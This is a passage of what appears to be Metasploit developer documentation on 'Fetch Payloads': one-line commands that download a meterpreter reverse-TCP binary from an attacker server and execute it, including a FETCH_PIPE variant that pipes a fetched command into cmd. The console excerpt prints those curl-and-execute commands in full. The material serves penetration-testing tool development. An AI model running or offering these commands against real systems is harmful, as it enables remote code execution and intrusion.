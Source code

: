 ## Using Fetch Payloads on the Fly
One really nice thing about Fetch Payloads is that it gives you the ability to execute a binary payload very quickly,
without relying on a session in framework or having to get a payload on target.  If you have a shell session or even a
really odd situation where you can execute commands, you can get a session in framework quickly without having to upload
a payload manually.  Just follow the steps above, and run the provided command.  Right now, the only thing we serve are
Framework payloads, but in the future, expanding to serve and execute any executable binary would be relatively trivial.

## Fetch Pipe
If space is at a premium, you can use the `FETCH_PIPE` option.  When using `FETCH_PIPE`, the fetch server hosts two
resources: the original binary and then the generated fetch command.  In the place of the original command, the command
generated will be a much smaller command to download the original command and pipe it into the shell.
The following example shows both the original command to download and execute the binary and the command to pipe the
original fetch command directly to the shell.  Since this requires two downloads, it is less stealthy, but the
command to run on the target is significantly shorter.
``` msf
msf6 payload(cmd/windows/http/x64/meterpreter_reverse_tcp) > to_handler
[*] Command served: curl -so %TEMP%\DpRdBIfeyax.exe http://10.5.135.117:8080/zw3LGTh9FtaLJ4bCQRAWdw & start /B %TEMP%\DpRdBIfeyax.exe

[*] Command to run on remote host: curl -s http://10.5.135.117:8080/test|cmd
```

## Using it in an exploit
Using Fetch Payloads is no different than using any other command payload.  First, give users access to the Fetch
payloads for a given platform by adding a target that supports `ARCH_CMD` and the desired platform, either `windows` or
`linux`.  Once the target has been added, you can get access to the command by invoking `payload.encoded` and use it as
the command to execute on the remote target.

### Example paired with CmdStager
There is likely to be some overlap between fetch payloads and command stagers.  Let's talk briefly about how to support 
both in an exploit.  Please see the documentation on Command Stagers for required imports and specifics for command
stagers.  in this case, I'm only documenting the changes to make so that fetch payloads will work alongside command
stagers or to use fetch payloads in the style of command stagers, which I suggest you do.
